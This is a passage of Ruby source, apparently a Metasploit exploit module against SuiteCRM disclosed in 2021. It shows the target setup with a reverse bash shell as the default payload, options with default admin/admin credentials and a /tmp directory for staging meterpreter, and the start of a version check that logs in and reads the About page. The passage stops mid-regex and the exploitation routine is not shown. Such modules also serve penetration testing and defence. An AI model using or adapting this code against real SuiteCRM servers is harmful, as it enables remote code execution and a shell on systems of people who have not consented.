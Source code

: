                 'Linux (cmd)', {
                  'Arch' => ARCH_CMD,
                  'Platform' => 'unix',
                  'DefaultOptions' => {
                    'PAYLOAD' => 'cmd/unix/reverse_bash'
                  }
                }
              ]
            ],
            'Notes' =>
            {
              'Stability' => [CRASH_SAFE],
              'SideEffects' => [ARTIFACTS_ON_DISK, IOC_IN_LOGS],
              'Reliability' => [REPEATABLE_SESSION]
            },
            'Privileged' => true,
            'DisclosureDate' => '2021-04-28',
            'DefaultTarget' => 0
          )
        )

        register_options(
          [
            OptString.new('TARGETURI', [true, 'The base path to SuiteCRM', '/']),
            OptString.new('USER', [true, 'Username of user with administrative rights', 'admin']),
            OptString.new('PASS', [true, 'Password for administrator', 'admin']),
            OptBool.new('RESTORECONF', [false, 'Restore the configuration file to default after exploit runs', true]),
            OptString.new('WRITABLEDIR', [false, 'Writable directory to stage meterpreter', '/tmp']),
            OptString.new('LASTNAME', [false, 'Admin user last name to clean up profile', 'admin'])
          ]
        )
      end

      def check
        authenticate unless @authenticated
        return Exploit::CheckCode::Unknown unless @authenticated

        version_check_request = send_request_cgi(
          {
            'method' => 'GET',
            'uri' => normalize_uri(target_uri.path, 'index.php'),
            'keep_cookies' => true,
            'vars_get' => {
              'module' => 'Home',
              'action' => 'About'
            }
          }
        )

        return Exploit::CheckCode::Unknown("#{peer} - Connection timed out") unless version_check_request

        version_match = version_check_request.body[/
          Version
          \s
          \d{1} # Major revision
          \.
          \d{1,2} # Minor revision
          \.
          \d{1,2} # Bug fix release
          /x]
